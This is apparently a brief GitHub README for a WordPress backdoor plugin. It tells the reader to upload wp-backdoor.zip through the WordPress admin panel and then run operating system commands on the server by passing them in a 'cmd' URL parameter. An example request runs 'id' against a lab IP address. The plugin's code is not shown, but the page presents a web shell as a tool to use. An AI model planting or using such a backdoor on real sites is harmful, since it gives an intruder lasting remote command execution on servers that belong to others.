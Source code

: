 # Wordpress Backdoor plugin #

Install the **wp-backdoor.zip** on the wp admin site.

URL: _http://wp/wp-content/plugins/wp-backdoor/wp-backdoor.php?cmd=OS_COMMAND_

e.g.: _http://10.11.1.251/wp/wp-content/plugins/wp-backdoor/wp-backdoor.php?cmd=id_

#tis #havefun #sander

